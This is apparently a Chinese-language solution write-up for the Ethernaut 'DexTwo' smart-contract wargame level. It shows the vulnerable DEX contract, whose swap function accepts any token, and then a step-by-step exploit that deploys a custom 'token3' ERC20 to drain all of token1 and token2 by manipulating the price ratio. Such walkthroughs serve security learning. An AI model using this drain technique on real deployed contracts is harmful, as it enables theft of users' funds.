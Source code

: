# Ethernaut 23-DexTwo

## 本关目标

- 取光合约中的 token1 和 token2

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  // 这个合约中的交换没有约束from和to必须是token1或token2
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## 解决方案

1. 因为没有约束交换时使用的 token 必须为 token1 或 token2，可以考虑引入 token3

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract token3 is ERC20{
    constructor() ERC20("Token3", "TK3") {
        _mint(msg.sender, 100);
    }

}
```

2. 调用 token3 的 approve 允许 Dex2 可以取走 100token3
3. 调用 token3 的 transfer 给 Dex2 转 1token3
4. 调用 Dex2 的 swap()，from token3 地址 to token1 地址，amount 1 ,这样获取 token1 = 1 \* token1 余额 / 1 = 全部 token1 取走， token3=2
5. 调用 Dex2 的 swap()，from token3 地址 to token2 地址，amount 2 ,这样获取 token2 = 2 \* token2 余额 / 2 = 全部 token2 取走
